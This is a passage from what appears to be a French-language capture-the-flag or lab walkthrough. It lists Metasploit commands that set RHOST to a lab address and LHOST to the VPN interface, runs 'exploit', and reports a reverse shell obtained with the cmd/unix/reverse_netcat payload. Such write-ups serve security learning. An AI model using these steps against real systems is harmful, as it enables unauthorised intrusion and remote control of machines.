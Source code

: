 	![Screenshot from 2021-04-17 13-52-33.png](../_resources/a8008858d959461d95993304ac6c6fcd.png)
	
	3. `set RHOST 10.10.10.3`
	4. `set LHOST tun0` (OVPN Interface)
	5. `exploit`

Nous avons maintenant le shell inversé utilisant la charge utile `cmd/unix/reverse_netcat`.


![Screenshot from 2021-04-17 14-30-52.png](../_resources/f759c3feef8e4447a7e9476774b40563.png)
